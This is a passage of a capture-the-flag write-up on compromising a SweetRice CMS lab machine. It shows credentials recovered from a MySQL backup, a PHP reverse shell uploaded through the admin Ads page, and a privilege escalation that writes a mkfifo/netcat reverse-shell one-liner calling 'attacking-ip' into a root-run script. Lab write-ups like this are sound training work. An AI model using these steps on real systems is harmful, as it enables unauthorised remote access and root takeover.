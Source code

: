 
- Looking around more, we can see that there are a bunch of files in the `/inc` directory, including php files, and a MySQL backup file. 
- The contents of the MySQL backup file hold the following credentials:
	- User: manager
	- Password (once hash is cracked): Password123

![MySQL Backup File](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/89b2a763-a8af-48f9-b206-188e5d5590ce)


- These credentials can be used to log into the admin page shown earlier. Once entered, we are greeted with the following landing page:

![Logged Into SweetRice](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/ba9ee1d3-6b1d-428f-ad2a-38fff6efae1e)


## System Hacking
- Once we toggle the Website Status to Running, we can go back to the website `/content` directory and view the webpage. It's a basic hello world web page, but upon further inspection, the source code references a few other URLs that we can take a look at. One of them is an Ads page, where we can load a php reverse shell:

![Ads Admin](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/a3d1b41a-b674-430b-b258-2af08325884c)


***Note: I have already loaded the php reverse shell payload from the Pentest Monkey GitHub page.***

- Once this is loaded, we can navigate to the `/content/inc/ads` directory through the URL, where we can see the reverse shell we have uploaded. Ensure there is a [Netcat](https://nmap.org/ncat/)  listener on the attacking machine, and click the payload to spawn a reverse shell. 
- You can use the following Python syntax to stabilize the shell. 
```python
python3 -c 'import pty;pty.spawn("bin/bash")'
```

- From here, we can navigate to the `/home/itguy` directory and grab the flag. 

## Privilege Escalation
- When running `sudo -l`, we can see that we can run a `backup.pl` file with root permissions. This file is in the `/home/itguy` folder, and contains the following:
```perl
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

- This script calls another script: `/etc/copy.sh`. We can use the following syntax to throw a quick reverse shell that will connect back to our attacking machine into the `copy.sh` script when the `backup.pl` script is run:
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attacking-ip 4444 >/tmp/f' > /etc/copy.sh
```
